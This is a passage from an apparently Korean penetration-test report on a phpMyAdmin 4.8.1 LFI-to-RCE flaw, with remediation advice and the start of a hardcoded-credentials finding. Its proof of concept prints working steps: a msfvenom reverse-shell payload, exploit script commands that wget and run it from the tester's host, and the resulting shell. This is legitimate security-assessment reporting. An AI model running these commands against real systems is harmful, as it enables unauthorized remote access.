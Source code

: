                         [...]
    ```

  - 정리하면 /import.php에 페이로드를 추가하여 POST형식으로 전달하여 sql쿼리를 실행하고 이로 인해 생성된 사용자의 세션파일안에 쿼리값이 포함되며
  `/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)`를 target 파라미터에 삽입을 시도하나 checkPageValidity 함수에서 ?기준으로 검증을 하고 있으므로 처음에는 `db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)`가 $_page 값으로 반환되고 다시 mb_substr함수를 통하여 $_page 값으로 반한된 `db_sql.php`가 $goto_whitelist에 들어있는 문자열 중 하나와 일치하므로 checkPageValidity 함수가 True 값을 반환하여 이로인해 include 함수에 포함된 세션파일 안의 포함되어 있는 사용자가 입력한 원격 코드가 실행되는 것으로 보인다.

#### 개념 증명
 - 점검자는 칼리 리눅스 내 `searchsploit` 도구를 사용하여 phpMyAdmin 4.8.1 원격코드 실행 개념 증명 익스플로잇 코드를 확보했다. 이후, 개념 증명을 위한 리버스 쉘 페이로드를 생성하였으며, 명령어는 다음과 같다.
    ```sh
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.140 LPORT=443 -f elf -o revshell.elf
    ```
 - 익스플로잇 코드를 통하여 생성한 리버스 쉘을 호스트에 전송하고 실행권한을 준 뒤 이를 수행하였고, 익스플로잇 성공을 확인했다.
    ```sh
    # 익스플로잇 코드를 통해 리버스 쉘 전송
    └ # python3 -m http.server 3333

    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "wget http:10.8.0.140:3333/revshell.elf -O /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "chmod +x /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "/tmp/reverse"

    # 리버스 쉘 획득
    └ # nc -lvnp 443

    listening on [any] 443 ...
    connect to [10.8.0.140] from (UNKNOWN) [172.31.249.155] 34848
    whoami;hostname;id
    www-data
    ip-172-31-249-155
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

#### 대응 방안
 - phpmyadmin을 최신버전인 5.2.1 버전으로 업데이트해 알려진 취약점을 해결한다.

 - phpmyadmin 로그인 계정 및 패스워드를 default 값이 아닌 임의의 값으로 변경한다.

#### 레퍼런스
 - phpMyAdmin 최신버전 https://www.phpmyadmin.net/downloads/
 - phpMyAdmin 버전 4.8.1 개념 증명 익스플로잇 https://www.exploit-db.com/exploits/50457

### 2. 하드코딩 된 계정 정보
#### 취약점 개요
|정보|설명|
|----|----|
|이름|하드코딩 된 계정 정보|
|중요도|상|
|위치|파일 위치: 루트 디렉토리 /.bobbyz_cred.txt|
